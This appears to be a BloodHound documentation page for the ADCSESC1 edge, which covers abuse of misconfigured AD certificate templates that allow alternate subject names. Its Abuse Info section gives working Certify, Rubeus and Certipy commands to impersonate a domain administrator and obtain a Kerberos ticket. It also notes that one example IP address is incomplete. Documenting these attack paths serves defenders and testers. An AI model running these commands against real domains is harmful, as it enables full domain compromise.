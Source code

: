 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```cmd
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC1 --upn ForestRootDA --sid S-1-5-21-2697957641-2271029196-387917394-500
```

The issued certificate (PFX) is printed to the console in base64 form. Copy the full base64 blob (including BEGIN/END lines) for the next step.

Step 2: With Rubeus, use the base64-encoded certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```cmd
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```cmd
klist
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)  
Destination: [Domain](/resources/nodes/domain)  
Traversable: **Yes**   

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Certipy)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser
